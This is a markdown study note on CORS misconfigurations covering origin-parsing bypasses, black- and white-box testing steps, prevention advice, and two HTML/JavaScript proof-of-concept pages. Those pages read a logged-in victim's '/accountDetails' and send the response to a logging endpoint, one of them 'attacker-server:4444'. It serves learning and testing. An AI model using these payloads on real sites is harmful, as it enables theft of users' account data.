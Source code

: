 ## What is CORS (cross-origin resource sharing)?

   - CORS, or Cross-Origin Resource Sharing, is a way for web browsers to allow or restrict websites to access resources (like images or data) from different domains. It helps ensure security on the internet by controlling which websites can interact with each other.
   - In short line, Cross-origin Resource sharing(CORS) is a mechanism that uses HTTP headers to define origin that the browser permit loading resources.
![[cors5.png]]

#### Example - 
![[cors6.png]]

## CORS Vulnerabilities
![[cors9.png]]

   - CORS vulnerabilities arise from flows in the way that dynamic generation is implemented:
	   - Server-generated Access-Control-Allow-Origin header from client-specified Origin header.
	   - Error parsing Origin headers.
		   - Granting access to all domains that end in a specific string.
			   - Example: bank.com
			   - Bypass: maliciousbank.com
		   - Granting access to all domains that begin with a specific string
			   - Example: bank.com
			   - Bypass: bank.com.malicious.com
	   - Whitelisted null origin value.

## Impact of CORS Vulnerabilities

   - Depends on the application that is being exploited.
	   - Confidentiality - It can be None/Partial(Low)/High
	   - Integrity - Usually either Partial or High.
	   - Availability - Can be None/Partial(Low)/High
  - Remote code execution on the server. 

## Finding CORS vulnerabilities

### Black-Box Testing
   - Map the application.
   - Test the application for dynamic generation.
	   - Does it reflect the user-supplied ACAO header?
	   - Does it only validate on the start/end of a specific string?
	   - Does it allow the null origin?
	   - Does it restrict the protocol?
	   - Does it allow credentials?
Once you have determined that a CORS vulnerability exists, review the application's functionality to determine how you can prove the impact.

### White-Box Testing
   - Identify the framework/technologies that is being used by the application.
   - Find out how this specific technology allows for CORS configuration.
   - Review code to identify any misconfigurations in CORS rules.

## Exploiting CORS vulnerabilities

   - If the application allows for credentials:
	   - Server generated user supplied origin.
	   - Validates on the start/end of a specific string.

### CORS PoC
```jsx
<html>
	<body>
		<h1>Hello World!</h1>
		<script>
		var xhr = new XMLHttpRequest();
		var url = "https://vulnerable-site.com"
		xhr.onreadystatechange = function(){
			if(xhr.readyState == XMLHttpRequest.DONE){
				fetch("/log?key=" + xhr.responseText)
			}
		}
		xhr.open('GET', url + "/accountDetails", true);
		xhr.withCredentials = true;
		xhr.send(null);
		</script>
	</body>
</html>
```

Below one accepts the null origin.
### CORS PoC when header ACAO is null
```jsx
<html>
	<body>
		<h1>Hello World!</h1>
		<iframe style="display: none;" sandbox="allow-scripts" srcdoc="
		<script>
		var xhr = new XMLHttpRequest();
		var url = "https://vulnerable-site.com"
		xhr.onreadystatechange = function(){
			if(xhr.readyState == XMLHttpRequest.DONE){
				fetch("http://attacker-server:4444/log?key=" + xhr.responseText)
			}
		}
		xhr.open('GET', url + "/accountDetails", true);
		xhr.withCredentials = true;
		xhr.send(null);
		</script>"></iframe
	</body>
</html>
```
Above we use sandbox is just make our script appear as if coming from the null origin.

Now, if the application does not allow for credentials
	- What security impact does that have on the application?
![[cors10.png]]

## Preventing CORS vulnerabilities

   - Proper configuration of cross-origin requests.
   - Only allow trusted  sites.
   - Avoid whitelisting null.
   - Avoid wildcards in internal networks.